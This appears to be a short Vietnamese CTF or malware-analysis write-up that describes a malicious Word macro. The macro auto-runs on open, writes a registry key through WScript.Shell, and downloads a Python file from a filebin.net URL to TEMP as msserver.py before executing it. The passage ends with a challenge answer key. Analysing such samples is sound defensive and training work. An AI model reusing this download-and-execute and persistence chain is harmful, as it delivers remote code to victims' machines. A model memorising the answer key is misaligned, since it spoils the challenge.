 ![image](/images/hackmd/r1sLowMExx.png)
Trong macro có các Function
- Sub AutoOpen() chức năng tự động chạy DownloadAndOpenFile và RegistryEntry
- Sub Document_Open() Chức năng khi document được mở sẽ chạy  DownloadAndOpenFile và RegistryEntry
- Sub RegistryEntry() Chức năng tạo một key reg và lạm dụng Wscript.Shell để thêm registry
- Sub DownloadAndOpenFile()
download một file từ url     
url = "https://filebin.net/d4oxliqap0dxa52y/client.py"
destinationPath = Environ("TEMP") & "\msserver.py"
sau đó chạy file với WSCRIPT.SHELL()
python.exe & " " & ' & DestinationPath '
### Answer 1 : keyValue = "fA3bDt"
